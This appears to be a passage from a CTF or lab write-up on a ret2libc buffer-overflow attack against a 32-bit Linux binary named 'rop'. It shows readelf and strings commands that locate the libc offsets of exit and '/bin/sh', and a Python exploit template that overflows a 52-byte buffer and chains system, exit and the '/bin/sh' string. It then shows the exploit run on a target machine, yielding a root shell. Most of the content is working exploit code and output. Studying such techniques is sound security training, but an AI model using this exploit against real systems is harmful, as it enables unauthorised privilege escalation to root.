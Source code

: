 ```
❯ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit
</.binary$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit              
   112: 0002edc0    39 FUNC    GLOBAL DEFAULT   13 __cxa_at_quick_exit@@GLIBC_2.10
   141: 0002e9d0    31 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0
   450: 0002edf0   197 FUNC    GLOBAL DEFAULT   13 __cxa_thread_atexit_impl@@GLIBC_2.18
   558: 000b07c8    24 FUNC    GLOBAL DEFAULT   13 _exit@@GLIBC_2.0
   616: 00115fa0    56 FUNC    GLOBAL DEFAULT   13 svc_exit@@GLIBC_2.0
   652: 0002eda0    31 FUNC    GLOBAL DEFAULT   13 quick_exit@@GLIBC_2.10
   876: 0002ebf0    85 FUNC    GLOBAL DEFAULT   13 __cxa_atexit@@GLIBC_2.1.3
  1046: 0011fb80    52 FUNC    GLOBAL DEFAULT   13 atexit@GLIBC_2.0
  1394: 001b2204     4 OBJECT  GLOBAL DEFAULT   33 argp_err_exit_status@@GLIBC_2.1
  1506: 000f3870    58 FUNC    GLOBAL DEFAULT   13 pthread_exit@@GLIBC_2.0
  2108: 001b2154     4 OBJECT  GLOBAL DEFAULT   33 obstack_exit_failure@@GLIBC_2.0
  2263: 0002e9f0    78 FUNC    WEAK   DEFAULT   13 on_exit@@GLIBC_2.0
  2406: 000f4c80     2 FUNC    GLOBAL DEFAULT   13 __cyg_profile_func_exit@@GLIBC_2.2
```

> **exit@@GLIBC\_2.0**: 0x0002e9d0

#### - /bin/sh

```
❯ strings -atx /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
</.binary$ strings -atx /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh         
 15ba0b /bin/sh
```

> **/bin/sh:** 0x0015ba0b

* **Create the exploit**

This is a template:

```
import struct

offset = 52
overflow = "A" * offset

libc = 0xb7e19000

system = struct.pack('<I', libc + 0x0003ada0)
exit = struct.pack('<I', libc + 0x0002e9d0)
binsh = struct.pack('<I', libc + 0x0015ba0b)

payload = overflow + system + exit + binsh
print(payload)
```

* **Explotation**

Finally we just need to transfer the file to the target machine and executed

```
❯ ./rop $(python /tmp/exploit.py)

# id
uid=0(root) gid=33(www-data) groups=33(www-data)
```
